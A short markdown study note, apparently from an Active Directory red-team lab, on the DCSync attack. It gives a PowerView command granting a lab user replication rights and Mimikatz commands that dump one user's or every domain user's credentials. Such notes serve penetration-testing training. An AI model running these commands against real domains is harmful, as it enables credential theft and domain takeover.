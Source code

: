 #mimikatz 
- DC Sync requires only two rights on the domain object.
	- Replicating Directory Changes
	- Replicating Directory Changes All
	- Replicating Directory Changes in Filtered Set (Optional maybe)
- Changes to the ACL of the `domain object` will be logged.

## Replication Rights
We can give our user replication rights, using `powerview.ps1`
```powershell
. .\powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
### Mimikatz
- Requires "Domain Admins" privs.
```powershell
# Dump credentails for a single user
lsadump::dcsync /domain:mydomain.local /user:<username>

# Dump credentials of all the domain user
log myfile.txt
lsadump::dcsync /domain:mydomain.local /all
```
